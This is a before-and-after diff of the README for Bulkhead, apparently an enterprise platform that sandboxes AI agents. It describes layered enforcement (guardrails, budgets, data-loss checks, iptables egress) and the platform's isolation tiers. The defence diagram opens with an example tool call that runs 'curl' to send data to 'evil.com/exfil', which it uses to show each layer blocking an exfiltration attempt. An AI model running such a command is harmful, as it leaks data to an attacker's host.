

Before and after one commit to Baselyne-Systems/agent-sandbox-platform, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -3,7 +3,52 @@
 [![CI](https://github.com/Baselyne-Systems/bulkhead/actions/workflows/ci.yml/badge.svg)](https://github.com/Baselyne-Systems/bulkhead/actions/workflows/ci.yml)
 [![Ask DeepWiki](https://deepwiki.com/badge.svg)](https://deepwiki.com/Baselyne-Systems/bulkhead)
 
-Bulkhead is an enterprise platform for deploying autonomous AI agents safely. It provides sandboxed execution environments with real-time guardrails evaluation, human-in-the-loop escalation, budget enforcement, and a complete audit trail — giving organizations the control they need to run AI agents in production.
+**Bulkhead is an enterprise platform for running autonomous AI agents in production with enforced policy controls.**
+
+AI agents that can browse the web, execute code, and call APIs need more than a prompt — they need guardrails that can't be bypassed, budgets that can't be exceeded, network boundaries that can't be circumvented, and an audit trail that can't be tampered with. Bulkhead provides all four as independent enforcement layers, so a failure in one doesn't compromise the others.
+
+## Defense in Depth
+
+Every tool call an agent makes passes through four independent enforcement layers before it can take effect:
+
+```
+Agent calls ExecuteTool("shell", {"cmd": "curl https://evil.com/exfil?data=..."})
+
+    1. Guardrails ── Compiled policy evaluated in Rust (<50ms)
+       │              Tool "shell" matched rule "deny-shell" → DENY
+       │              (if allowed, continues to next layer)
+       │
+    2. Budget ────── Per-agent spending limit checked before execution
+       │              $47.20 of $100.00 used → ALLOW
+       │
+    3. DLP ────────── Content classified for sensitive data patterns
+       │              SSN detected in parameters → DENY
+       │              (blocks data exfiltration even if guardrails allow the tool)
+       │
+    4. Egress ────── iptables rules at the kernel level
+                      evil.com not in allowlist → DROPPED
+                      (even if all policy layers pass, network is filtered independently)
+```
+
+The Host Agent is **policy-only** — it evaluates and returns a verdict (ALLOW / DENY / ESCALATE) but never executes agent code. Agents run inside sandboxed containers and execute tools locally. This separation means a compromised agent cannot influence its own policy evaluation.
+
+## Isolation Tiers
+
+Sandbox security is automatically selected based on agent trust level and data sensitivity, or overridden explicitly by operators:
+
+| Tier | Security Profile | When Used |
+|------|-----------------|-----------|
+| **Standard** | Docker container (cgroups + namespaces) | Trusted agents, public data |
+| **Hardened** | + seccomp profile, read-only rootfs, no-new-privileges, dropped capabilities | New/untrusted agents, confidential data |
+| **Isolated** | + gVisor or Kata runtime (kernel-level isolation) | High-risk agents, restricted data |
+
+Auto-selection matrix:
+
+| Trust \ Data | Public | Internal | Confidential | Restricted |
+|-------------|--------|----------|--------------|------------|
+| Trusted | standard | standard | standard | isolated |
+| Established | standard | standard | hardened | isolated |
+| New | hardened | hardened | isolated | isolated |
 
 ## Architecture
 
@@ -51,7 +96,11 @@ graph TB
     Egress --- Sandbox
 ```
 
-The **control plane** (Go) handles orchestration, persistence, policy management, and host fleet management. The **Host Agent** (Rust) runs on each host — it self-registers with the Compute Plane on startup, sends periodic heartbeats with resource availability, and manages sandboxed containers with configurable isolation tiers (standard, hardened, isolated). It evaluates guardrails and budget as a policy engine while agents execute tools inside their containers.
+| Component | Technology | Role |
+|-----------|-----------|------|
+| **Control Plane** | Go 1.24, gRPC, PostgreSQL 16 | 9 microservices: orchestration, policy management, fleet management, audit |
+| **Host Agent** | Rust 1.83, Tokio, Bollard | Per-host policy engine: guardrails evaluation, Docker lifecycle, iptables egress |
+| **Python SDK** | Python 3.10+, LangChain | `@tool` decorator: evaluate-execute-report cycle, LangChain wrapper |
 
-## Key Features
+## Key Capabilities
 
````
Also changed, not shown: other parts of README.md (+28 -21 lines).
